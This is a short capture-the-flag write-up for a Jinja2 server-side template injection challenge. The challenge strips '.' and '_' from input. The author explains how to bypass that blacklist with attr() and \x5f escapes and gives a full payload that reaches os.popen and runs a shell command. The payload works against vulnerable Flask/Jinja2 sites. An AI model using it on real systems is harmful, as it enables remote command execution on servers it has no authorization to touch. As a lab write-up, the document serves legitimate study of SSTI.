 Description:  
I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)  
Hints:  
Server Side Template Injection  
Why is blacklisting characters a bad idea to sanitize input?  

This one is the combine between "3v@l" and "SST1" challenge. After so many tried, i found out it's using `Jinja2` and blocking some character likes : `.` `_`  ...    
Really hard to write a python payload that does not containts this character.  
Do some research and i found that, we can replace `.` with `attr()` and `_` with `\x5f` ( escape string ).  
The full payload to get the flag is: 
```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}
```
Peace!


